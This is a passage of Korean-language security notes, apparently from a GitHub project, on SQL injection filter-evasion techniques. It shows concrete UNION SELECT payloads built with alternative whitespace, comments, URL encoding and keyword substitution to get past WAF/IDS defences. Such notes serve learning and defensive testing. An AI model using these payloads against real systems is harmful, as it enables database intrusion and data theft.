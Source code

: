 다음 문자는 공백으로 사용할 수 있음.<br><br>

![스크린샷 2024-04-17 오후 2 31 34](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/6e460be1-4209-415c-b762-5e5ca24c0d0f)<br><br>


예 :<br>
`'%0A%09UNION%0CSELECT%A0NULL%20%23`<br><br>

공백을 사용하지 않으려면 괄호를 사용할 수도 있음.<br><br>

![스크린샷 2024-04-17 오후 2 31 55](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/b1d2f79e-7522-4237-b6d3-54a87f7a67dc)<br><br>


예 :<br>
`UNION(SELECT(column)FROM(table))`<br><br>

**② AND/OR 뒤에 허용되는 중간 문자열**<br><br>

![스크린샷 2024-04-17 오후 2 32 24](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/abb3eb20-9560-4e48-ad81-4dc17033e743)<br><br>


예 :<br>
`SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1))`<br><br>

노트 :<br>
DUAL 테이블은 테스트에 사용할 수 있는 더미 테이블임.<br><br>

**③ 주석으로 난독화**<br><br>

WAF/IDS 를 우회하기 위해 주석을 사용하여 쿼리를 분할할 수 있음.<br>
<p># 또는 -- 와 같은 개행 문자를 사용하여 쿼리를 별도의 줄로 나눌 수 있음.</p><br><br>

예 :<br>
`1'#<br>
AND 0--<br>
UNION# I am a comment!<br>
SELECT@tmp:=table_name x FROM--<br>
`information_schema`.tables LIMIT 1#`<br><br>

URL 인코딩은 다은과 같이 나타냄 :<br>
`1'%23%0AAND 0--%0AUNION%23 I am a comment!%0ASELECT@tmp:=table_name x FROM--%0A`information_schema`.tables LIMIT 1%23`<br><br>

특정 함수는 주석과 공백으로 난독화할 수 있음.<br>
`VERSION/**/%A0 (/*comment*/)`<br><br>

**④ 인코딩**<br><br>

주입을 인코딩하면 WAF/IDS 우회에 유용할 때도 있음.<br><br>

![스크린샷 2024-04-17 오후 2 33 56](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/70bae8cc-b287-4b5f-bd03-a840fdc562b5)<br><br>


**⑤ 키워드 피하기**<br><br>

IDS/WAF 가 특정 키워드를 차단하는 경우 인코딩을 사용하지 않고 다른 키워드를 사용하는 방법이 있음.<br><br>

`information_schema.tables`<br><br>

![스크린샷 2024-04-17 오후 2 57 54](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/1101bf45-faee-48ba-a978-9439699e2304)<br><br>
